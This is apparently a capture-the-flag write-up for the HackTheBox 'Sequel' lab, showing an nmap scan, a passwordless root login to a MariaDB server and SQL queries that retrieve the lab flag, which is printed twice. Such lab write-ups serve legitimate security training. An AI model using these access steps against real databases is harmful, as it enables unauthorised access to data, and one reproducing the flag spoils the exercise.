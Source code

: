 # Sequel - HackTheBox Write-up

## Overview
The **Sequel** machine required us to exploit a misconfigured MySQL instance running MariaDB to retrieve sensitive information. This write-up covers enumeration, gaining access, and retrieving the final flag.

## Enumeration
1. **Nmap Scan**:
   - Command: `nmap -sC -sV -p3306 <IP>`
   - Result: Open port `3306` running `MariaDB 10.3.27`.

2. **Database Access**:
   - Authentication: `root` with no password.
   - Connected using: `mysql -h <IP> -u root`.

## Exploitation
1. **Databases**:
   - Command: `SHOW databases;`
   - Output:
     ```
     information_schema
     mysql
     performance_schema
     htb
     ```

2. **Tables in `htb` Database**:
   - Command: `USE htb; SHOW tables;`
   - Output:
     ```
     config
     users
     ```

3. **Retrieving Flag**:
   - Command: `SELECT * FROM config;`
   - Output: `7b4bec00d1a39e3dd4e021ec3d915da8`

## Key Learnings
- MySQL misconfigurations can lead to critical data exposure.
- Always check for passwordless `root` access on services like MySQL during penetration tests.

---

## Flag
- **Root Flag**: `7b4bec00d1a39e3dd4e021ec3d915da8`
